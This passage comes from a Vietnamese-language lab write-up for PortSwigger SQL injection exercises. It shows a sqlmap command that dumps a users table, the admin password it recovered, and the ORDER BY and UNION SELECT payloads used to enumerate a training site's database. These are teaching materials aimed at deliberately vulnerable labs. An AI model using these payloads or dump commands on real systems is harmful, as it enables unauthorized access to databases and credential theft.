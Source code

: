 ![ảnh](https://hackmd.io/_uploads/SJzfqcS3T.png)

trong table users có lưu email, password và username và mình sẽ dump nó để đọc thông tin của bảng này với lệnh

```sql!
sqlmap -u https://0aab000904533546845efe8600ce00bb.web-security-academy.net/filter?category=Lifestyle  --batch -D public -T users --dump
```

và mình được mật khẩu của admin là **n2rms4i02ubss50z23y7**

![ảnh](https://hackmd.io/_uploads/HkXs95Hna.png)

đem đi đăng nhập và mình solve được lab này

![ảnh](https://hackmd.io/_uploads/S1jJsqSha.png)

## 8. Lab: SQL injection attack, listing the database contents on non-Oracle databases

link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

### Đề bài

![image](https://hackmd.io/_uploads/HJsOXhnqa.png)

### Phân tích

- Lab này có chứa lỗ hổng SQL Injection ở cơ chế phân loại sản phẩm, nhiệm vụ của mình là cần tìm được bảng có chứa tên tài khoản và mật khẩu, từ đó lấy được thông tin của admin. Đây là một bài trên hệ quản trị không phải Oracle.
- mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/rJN_En39p.png)

### Khai thác

- Kiểm tra số cột dữ liệu trả về trong câu lệnh truy vấn, payload: `/filter?category=' ORDER BY 2--` không trả về error

![image](https://hackmd.io/_uploads/BkSTN2hq6.png)

`/filter?category=' ORDER BY 3--` trả về error:

![image](https://hackmd.io/_uploads/HkOgH32cp.png)

Như vậy câu lệnh truy vấn trả về 2 cột dữ liệu. Tìm kiểm cột dữ liệu tương thích với kiểu chuỗi, payload: `/filter?category=' UNION SELECT 'column1', 'column2'--`

![image](https://hackmd.io/_uploads/SyF4Bh2qa.png)
